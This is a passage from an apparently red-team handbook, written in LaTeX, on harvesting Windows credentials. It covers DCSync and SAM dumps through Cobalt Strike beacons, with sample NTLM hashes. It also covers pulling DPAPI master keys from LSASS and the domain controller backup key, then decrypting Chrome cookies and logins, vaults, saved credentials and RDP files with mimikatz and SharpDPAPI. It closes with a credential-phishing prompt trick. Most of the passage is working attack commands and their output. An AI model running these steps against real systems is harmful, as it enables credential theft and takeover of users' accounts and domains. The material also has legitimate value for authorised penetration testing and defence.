[DC] 'DC1.mydomain.local' will be the DC server
[DC] 'someuser' will be the user account

Object RDN             : Some User

** SAM ACCOUNT **

SAM Username          : someuser
User Principal Name   : someuser@mydomain.local
[CUT]
Password last change  : 2/10/2020 10:13:46 AM 
Object Security ID    : S-1-5-21-363360753-467370821-3292725625-1118
Object Relative ID    : 1118

Credentials:
   Hash NTLM: e4817e3[CUT]dc37ca25f9
\end{lstlisting}

\subsection{Cobalt Strike}
Dumping and abusing credentials with CS Beacons

\subsubsection*{Extract local creds from SAM - Cobalt Strike using mimikatz}
\begin{lstlisting}[language=sh]
beacon> mimikatz !lsadump::sam
[*] Tasked beacon to run mimikatz's !lsadump::sam command
[+] host called home, sent: 825927 bytes
[+] received output:
Domain : WINDOWS2
SysKey : 0af496ade2f34bb46bf052392f97f310
Local SID : S-1-5-21-3110711237-1288030956-2635231936

SAMKey : f9c4f5e09770d65fd8987ed5d36bc800

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe
\end{lstlisting}

\subsubsection*{DCSync - Cobalt Strike}
\begin{lstlisting}[language=sh]
** SAM ACCOUNT **

SAM Username         : dfm
User Principal Name  : dfm@testlab.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000280 ( ENCRYPTED_TEXT_PASSWORD_ALLOWED_NORMAL_ACCOUNT )
Account expiration   :
Password last change : 3/6/2017 3:07:33 PM
Object Security ID   : S-1-5-21-88232822-274137685-417320799-1109
Object Relative ID   : 1109

Credentials:
Hash NTLM: 2b576acbe6bcfda7294d6bd18041b8fe
   ntlm- 0: 2b576acbe6bcfda7294d6bd18041b8fe
   lm  - 0: a51a888cb60ec62bee12c5407fa7d077
\end{lstlisting}

\subsubsection*{Cobalt Strike Credential Store}
Cobalt Strike will automatically scrape the results of password dumping actions and persistently store the passwords:
\begin{center}
    
\includegraphics[width=\textwidth]{resources/11-cobalt-strike-credential-store.png}
\end{center}

\subsection{DPAPI The Data Protection API}
Another underrated source for tons of credentials.

The data protection API (DPAPI) provides a set of API calls (CryptProtectData / CryptUnprotectData) that allow applications to encrypt/decrypt at rest data “blobs” on a system
\begin{itemize}
    \item Pass the APIs a byte array and optional entropy, get encrypted data back
    \item The keys are linked to the system or the user and handled “automagically” by the OS
\end{itemize}
Provides applications an easy way to fairly securely store secrets on disk without having to worry about key management overhead/etc.

\subsubsection*{Secrets Protected by DPAPI}

\textbf{User}
\begin{itemize}
    \item Windows “Credentials” (e.g. saved RDP creds)
    \item Windows Vaults
    \item Saved IE and Chrome logins/cookies
    \item Remote Desktop Connection Manager files w/ passwords
    \item Dropbox syncs
    \item More!
\end{itemize}

\textbf{System}
\begin{itemize}
    \item Scheduled tasks
    \item Azure AD Connect accounts
    \item Wifi passwords
    \item More...?
\end{itemize}

\subsubsection*{User Master Keys}

\textbf{User master keys} exist at:
\begin{lstlisting}[language=sh]
C:\Users\<user>\AppData\Roaming\Microsoft\Protect
\<user-SID>\<KEY_GUIDs>
\end{lstlisting}[language=sh]

    \begin{itemize}
    \item Windows renews the current master key every 3 months:
    \item But previous masterkeys must be kept to allow “old” blob decryption
    \item There’s also a domain “backup” DPAPI key... (more on this later)
\end{itemize}

\begin{itemize}
   \item SYSTEM has masterkeys too:
   \begin{lstlisting}[language=sh]
%WINDIR%\System32\Microsoft\Protect\S-1-5-18\<GUIDs>
%WINDIR%\System32\Microsoft\Protect\S-1-5-18\User\<GUIDs> 
   \end{lstlisting}
   
   \item The masterkeys are encrypted with a password derived from the DPAPI\_SYSTEM LSA Secret
   
   \item The first half of the DPAPI\_SYSTEM key is for the first level of masterkeys, the second half is for the \texttt{User\textbackslash} masterkeys
   
   \item You have to be SYSTEM to retrieve this, and can't be done remotely
   
   \item Any LSA Secrets dumper can extract the DPAPI\_SYSTEM key, e.g. Mimikatz:
\end{itemize}

\subsubsection*{DPAPI - How decrypt User Secrets?}
With and without the capability to execute code in a target user's context.
\begin{center}
    
\includegraphics[width=\textwidth]{resources/11-dpapi-decrypt-user-secrets.png}
\end{center}

\begin{itemize}
    \item DPAPI User masterkeys are in LSASS memory for logged on users
    \item If you’re in a user’s context, the easiest decryption method for *many* (but not all) DPAPI blobs is to call CryptUnprotectData() to have the OS decrypt the blob for you
    \item Example Mimikatz:
   \begin{lstlisting}[language=sh]
        mimikatz # dpapi::chrome /in:"%localappdata%\Google\Chrome\User
        Data\Default\Login Data" /unprotect 
   \end{lstlisting}
\end{itemize}

\subsubsection*{User Secret Decryption using extracted User Master Key}
The master key can now be used to decrypt the user secret:

\begin{lstlisting}[language=sh]
mimikatz dpapi::chrome /in:"...\AppData\Local\Google\Chrome\User Data\Default\Cookies" /masterkey:f35cfc2b44aedd7...
\end{lstlisting}


\begin{center}
    
\includegraphics[width=\textwidth]{resources/11-dpapi-user-secret-decryption-using-extracted-user-master-key.png}
\end{center}

\subsection{DPAPI - How to get the User Master Key?}

\subsubsection*{User Master Key extraction from LSASS}

\begin{itemize}
   \item In order to decrypt eventual DPAPI data blobs WITHOUT using the established APIs, we need the \textbf{SHA1 representations of the decrypted masterkeys}!
   
   \item Easiest (elevated with Mimikatz):
   \begin{verbatim}
privilege::debug
sekurlsa::dpapi
dpapi::cache    \end{verbatim} - Extracts loaded \textbf{masterkey GUIDs->SHA1 decrypted keys} from LSASS
   
   \item These \textbf{SHA1 decrypted keys} can then be passed with \texttt{/masterkey:SHA1} when performing Mimikatz DPAPI decryptions
\end{itemize}

\textit{This time, the CRYPTPROTECT\_SYSTEM flag doesn't matter, since we're getting the keys straight from LSASS memory!}

If you run /unprotect on a given database owned by a different user, you'll get an error when trying to invoke CryptUnprotectData().

The error message tells you which \textbf{master key UUID} you need to extract:

\begin{center}
    
\includegraphics[width=\textwidth]{resources/11-user-master-key-extraction-from-lsass.png}
\end{center}

Run sekurlsa::dpapi to extract all DPAPI keys from memory for users currently logged in.
Matching the {b88...} GUID to the DPAPI keys, the master key we need is
f35cfc2b44aedd7...

\begin{center}
    
\includegraphics[width=\textwidth]{resources/11-user-master-key-extraction-from-lsass-2.png}
\end{center}

\subsubsection*{User Master Key offline decryption}
If we know a user's plaintext password, we can decrypt a user's masterkey blob (even if it's offline on another machine):

\begin{lstlisting}[language=sh]
mimikatz # dpapi::masterkey /in:<MASTERKEY_LOCATON> /sid:<USER_SID> /password:<USER_PLAINTEXT> /protected
\end{lstlisting}

\subsubsection*{User Master Key retrieval through BackupKey Remote Protocol (MS-BKRP)}
If we're in a user's context (i.e. stolen their token, used over-PTH/etc.) we can also retrieve a decrypted masterkey through the BackupKey Remote Protocol (MS-BKRP):

\begin{lstlisting}[language=sh]
mimikatz # dpapi::masterkey /in:<MASTERKEY_LOCATON> /rpc
\end{lstlisting}


\subsubsection*{User Master Key retrieval from Backup DPAPI Key (from DC)}

Each domain-joined user masterkey blob has a domain backup key component (used in case a user changes their password, smartcard stuff, etc.). This domain masterkey component is encrypted with a DPAPI domain backup private key that exists on domain controllers.

\textit{This key never changes :)}

\begin{itemize}
   \item Export the backup key in a .pvk to the system/current folder you're running this from:
   \begin{lstlisting}[language=sh]
mimikatz # lsadump::backupkeys /system:<DOMAIN CONTROLLER> /export
   \end{lstlisting}

   \item Or from SharpDPAPI (use current DC, display as base64 blob):
   \begin{lstlisting}[language=sh]
SharpDPAPI.exe backupkey [/server:SERVER.domain] [/file:key.pvk]
   \end{lstlisting}

   \item Decrypt the masterkey by using the domain backup key:
   \begin{lstlisting}[language=sh]
mimikatz # dpapi::masterkey /in:b88... /pvk:ntds_capi...e4d8.pvk
   \end{lstlisting}
\end{itemize}

\begin{center}
    
\includegraphics[width=\textwidth]{resources/11-user-master-key-retrieval-from-backup-dpapi-key-from-dc.png}
\end{center}

\subsection{DPAPI - How decrypt Machine Secrets?}
Extracting the Machine Master Key and decrypt the secrets

\subsubsection*{Machine Master Key Decryption}

To decrypt machine masterkeys, we need the \texttt{DPAPI\_SYSTEM} \textit{LSA Secret}:

\begin{lstlisting}[language=sh]
mimikatz # lsadump::secrets
\end{lstlisting}

This key can then be used to decrypt machine master keys with:

\begin{lstlisting}[language=sh]
mimikatz # dpapi::masterkey /in:C:\Windows\System32\Microsoft\Protect\S-1-5-18\<GUID> /system:DPAPI_SYSTEM
\end{lstlisting}

Or with SharpDPAPI (which extracts the DPAPI\_SYSTEM key first):

\begin{lstlisting}[language=sh]
SharpDPAPI.exe machinemasterkeys
\end{lstlisting}

\subsection{DPAPI - Credentials, Vauts, .rdg, Chrome, ?}
Extracting even more secrets from DPAPI

\section*{DPAPI Credentials and Vaults}

Credentials are kept in \texttt{Credentials} folders, self-contained structures

Vaults are kept in \texttt{Vault} folders, have a \texttt{Policy.vpol} that's decrypted with a masterkey, two AES keys within the policy are then used to decrypt one or more \texttt{.vcrd} files

Where can you typically find them:

\begin{lstlisting}[language=sh]
%userprofile%\AppData\(Local|Roaming)\Microsoft\...
\end{lstlisting}

The local system also has Credentials and Vaults:

\begin{lstlisting}[language=sh]
C:\Windows\System32\config\systemprofile\AppData\[Roaming|Local]\Microsoft\...

C:\Windows\ServiceProfiles\[LocalService|NetworkService]\AppData\[Roaming|Local]\Microsoft\...
\end{lstlisting}

\subsubsection*{DPAPI Extracting Credentials}

Mimikatz can decrypt a saved credential:
\begin{lstlisting}[language=sh]
mimikatz # dpapi::cred /masterkey:SHA1 /in:C:\...\Credentials\ID
\end{lstlisting}

SharpDPAPI decrypts saved credentials:
\begin{lstlisting}[language=sh]
SharpDPAPI credentials [GUID1:SHA1 GUID2:SHA1 ...]

SharpDPAPI credentials /mkfile:MASTER_KEY_FILE.txt

SharpDPAPI credentials /pvk:BASE64 </server:SERVER.domain.com>
\end{lstlisting}
\textit{-> Triages user masterkeys first, also can work remotely!}

\begin{lstlisting}[language=sh]
SharpDPAPI machinecredentials
\end{lstlisting}
\textit{-> Elevates to extract DPAPI\_SYSTEM first to extract machine masterkeys}

\textit{Note: SharpDPAPI triage runs the user credentials, vaults, rdg, and certificates commands automatically!}

\subsubsection*{DPAPI Extracting Vaults}

Mimikatz can decrypt a vault:
\begin{lstlisting}[language=sh]
mimikatz # dpapi::vault /masterkey:SHA1 /cred:C:\...\ID.vcrd /policy:C:\...\Policy.vpol
\end{lstlisting}

SharpDPAPI decrypts vaults:
\begin{lstlisting}[language=sh]
SharpDPAPI vaults [GUID1:SHA1 GUID2:SHA1 ...]

SharpDPAPI vaults /mkfile:MASTER_KEY_FILE.txt

SharpDPAPI vaults /pvk:BASE64 </server:SERVER.domain.com>
\end{lstlisting}
\textit{-> Triages user masterkeys first, also can work remotely!}

\begin{lstlisting}[language=sh]
SharpDPAPI machinevaults
\end{lstlisting}
\textit{-> Elevates to extract DPAPI\_SYSTEM first to extract machine masterkeys}

\textit{Note: SharpDPAPI triage runs the user credentials, vaults, rdg, and certificates commands automatically!}

\subsubsection*{DPAPI Extracting saved RDP connection credentials (.rdg files)}

Mimikatz can decrypts .rdg files:
\begin{lstlisting}[language=sh]
mimikatz # dpapi::blob /in:FILE.rdg [/masterkey:SHA1|/unprotect]
\end{lstlisting}

SharpDPAPI decrypts .rdg files:
\begin{lstlisting}[language=sh]
SharpDPAPI rdg /unprotect

SharpDPAPI rdg [GUID1:SHA1 GUID2:SHA1 ...]

SharpDPAPI rdg /mkfile:MASTER_KEY_FILE.txt

SharpDPAPI rdg /pvk:BASE64 </server:SERVER.domain.com>
\end{lstlisting}
\textit{-> Triages user masterkeys first, also can work remotely!}

\textit{Note: SharpDPAPI triage runs the user credentials, vaults, rdg, and certificates commands automatically!}

\subsubsection*{DPAPI Extracting Chrome cookies \& saved logins}

Mimikatz can decrypt Chrome cookies and saved logins:
\begin{lstlisting}[language=sh]
mimikatz # dpapi::chrome /in:"Login Data|Cookies" [/unprotect | /masterkey:SHA1]
\end{lstlisting}

Chrome file locations:
\begin{lstlisting}[language=sh]
%localappdata%\Google\Chrome\User Data\Default\Cookies
%localappdata%\Google\Chrome\User Data\Default\Login Data
\end{lstlisting}

\textbf{SharpChrome} (part of SharpDPAPI) can also triage Chrome cookies and/or saved logins using decrypted masterkeys, the domain backup key, or the legitimate DPAPI.

\subsection{Alternative Techniques}
obviously to get credentials of users.

\subsubsection*{Just Ask}
somtimes you just have to ask. 

Invoke-Prompt will display an error then prompt for creds:
